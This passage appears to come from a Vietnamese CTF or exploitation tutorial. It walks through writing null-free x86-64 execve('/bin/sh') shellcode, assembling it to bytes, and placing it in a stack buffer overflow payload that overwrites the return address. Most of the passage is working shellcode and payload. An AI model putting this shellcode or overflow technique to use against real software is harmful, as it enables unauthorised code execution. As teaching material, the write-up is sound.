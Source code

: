 - Reset các thanh ghi cần thiết khác để thiết lập tham số đúng cho hàm `sys_execve`:
```
xor rsi, rsi
xor rdx, rdx
```

- Nạp giá trị 0x3b vào RAX để `syscall` trỏ đến hàm `sys_execve` dùng để thực thi `/bin/sh`:   
Bằng cách reset giá trị RAX về 0x0 rồi xor với 0x3b để RAX nhận giá trị 0x3b.   
Lí do mình làm như vậy chứ không trực tiếp dùng `mov rax, 0x3b` là vì sau khi chuyển sang shellcode sẽ có kí tự lẫn kí tự \x00 vào (vi phạm lưu ý mình đã đề cập trước đó). Có thể sử dụng nhiều cách khác để nạp giá trị 0x3b vào RAX, miễn là không lẫn kí tự \x00 vào là được.   
```
xor rax, rax
xor rax, 0x3b
```

- Thực hiện gọi syscall
```
syscall
```

__Code đầy đủ assembly__:
```
xor rax, rax
push rax
mov rax, 0x68732f2f6e69622f
push rax
mov rdi, rsp

xor rsi, rsi
xor rdx, rdx

xor rax, rax
xor rax, 0x3b

syscall
```
__Shellcode sau khi assemble__:
```
\x48\x31\xC0\x50\x48\xB8\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\x31\xC0\x48\x83\xF0\x3B\x0F\x05
```

__Chuỗi payload input lần 2__:
```
"\x48\x31\xC0\x50\x48\xB8\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\x31\xC0\x48\x83\xF0\x3B\x0F\x05" + "a"*103 + dest_addr
```
Chắc bạn cũng đã để ý rằng ở đây mình phải dùng địa chỉ `dest_addr` trong stack chứa shellcode thay vì địa chỉ `s` trong heap cũng chứa shellcode.    
Bởi vì địa chỉ `s` trong heap là 0x602260 chỉ có 3 bytes, nhưng 1 stack trong kiến trúc 64-bit có thể chứa 8 bytes, mà mình lại không thể ghi thêm 0x0000000000 vào chuỗi để nó trở thành 0x0000000000602260, nên nếu trong stack đã có sẵn 1 vài bytes bất kì thì lúc ghi đè vào return address, return address sẽ trở thành 0x??????????602260 (?? là 1 byte bất kì có sẵn trong stack, có thể bằng 0x00, có thể bằng giá trị khác) => sai địa chỉ chứa shellcode => lỗi thực thi chương trình.   
Vì vậy mình sẽ dùng `dest_addr` có đến tận 7 bytes, tính thêm kí tự \x00 ở cuối chuỗi sau khi `p64()` thì sẽ thành 8 bytes, vừa đủ làm return address trong stack.    

